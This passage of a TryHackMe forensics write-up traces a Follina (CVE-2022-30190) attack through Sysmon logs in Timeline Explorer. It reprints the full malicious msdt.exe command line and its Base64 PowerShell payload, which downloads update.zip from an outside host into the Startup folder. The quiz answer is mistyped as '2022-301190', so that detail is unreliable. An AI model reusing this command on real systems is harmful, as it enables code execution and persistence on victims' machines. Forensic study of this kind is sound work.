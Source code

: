 **Tip:** Looking at **Payload Data5** we can see all our **Parent Processes**, clicking on the tiny little symbol at the top right that looks like a wee cocktail glass shows us all the results. We can then click on the 2 entries for Parent Process: **496**.

![A software interface of "Timeline Explorer" version 2.0.0.1 displaying a CSV file named "sysmon.csv." Visible data includes parent process details with IDs and GUIDs. A text filter pane is open, listing multiple parent process entries with checkboxes.](https://cdn.hashnode.com/res/hashnode/image/upload/v1755184588012/aefbfffc-1792-4882-bbfd-4edc9a572528.png align="center")

We can scroll a little to the right where we will find “Executable Info” and the bottom entry sure looks juicy.

![A screenshot of Timeline Explorer v2.0.0.1 displaying a table with columns for Executable Info and Source File. It shows paths of Microsoft and SysWOW64 executables from sysmon.csv.](https://cdn.hashnode.com/res/hashnode/image/upload/v1755184729157/b6d70b1c-6c1a-440a-a09c-99579dfaa77f.png align="center")

```yaml
C:\Windows\SysWOW64\msdt.exe ms-msdt:/id PCWDiagnostic /skip force /param "IT_RebrowseForFile=? IT_LaunchMethod=ContextMenu IT_BrowseForFile=$(Invoke-Expression($(Invoke-Expression('[System.Text.Encoding]'+[char]58+[char]58+'UTF8.GetString([System.Convert]'+[char]58+[char]58+'FromBase64String('+[char]34+'JGFwcD1bRW52aXJvbm1lbnRdOjpHZXRGb2xkZXJQYXRoKCdBcHBsaWNhdGlvbkRhdGEnKTtjZCAiJGFwcFxNaWNyb3NvZnRcV2luZG93c1xTdGFydCBNZW51XFByb2dyYW1zXFN0YXJ0dXAiOyBpd3IgaHR0cDovL3BoaXNodGVhbS54eXovMDJkY2YwNy91cGRhdGUuemlwIC1vdXRmaWxlIHVwZGF0ZS56aXA7IEV4cGFuZC1BcmNoaXZlIC5cdXBkYXRlLnppcCAtRGVzdGluYXRpb25QYXRoIC47IHJtIHVwZGF0ZS56aXA7Cg=='+[char]34+'))'))))i/../../../../../../../../../../../../../../Windows/System32/mpsigstub.exe"
```

Simply copy and paste the Base64 encoded string! It’s the literal single quotation marks and has a little padding (**\==**) at the end.

**\= JGFwcD1bRW52aXJvbm1lbnRdOjpHZXRGb2xkZXJQYXRoKCdBcHBsaWNhdGlvbkRhdGEnKTtjZCAiJGFwcFxNaWNyb3NvZnRcV2luZG93c1xTdGFydCBNZW51XFByb2dyYW1zXFN0YXJ0dXAiOyBpd3IgaHR0cDovL3BoaXNodGVhbS54eXovMDJkY2YwNy91cGRhdGUuemlwIC1vdXRmaWxlIHVwZGF0ZS56aXA7IEV4cGFuZC1BcmNoaXZlIC5cdXBkYXRlLnppcCAtRGVzdGluYXRpb25QYXRoIC47IHJtIHVwZGF0ZS56aXA7Cg==**

---

> ### What is the CVE number of the exploit used by the attacker to achieve a remote code execution?

Here a wee hint from THM:

*“External research needed. Observe the parent-child relationship of Winword.exe and the process that executed the malicious base64 payload”*

Looking at that exact entry where we got our Base64 encoded string we can see the process that executed this was **C:\\Windows\\SysWOW64\\msdt.exe**.

I just googled `msdt.exe winword.exe CVE` and the first results was exactly what I was looking for!

Brought me here: [https://msrc.microsoft.com/blog/2022/05/guidance-for-cve-2022-30190-microsoft-support-diagnostic-tool-vulnerability/](https://msrc.microsoft.com/blog/2022/05/guidance-for-cve-2022-30190-microsoft-support-diagnostic-tool-vulnerability/)

“**Guidance for CVE-2022-30190”**

**\= 2022-301190**

---

> ### The malicious execution of the payload wrote a file on the system. What is the full target path of the payload?
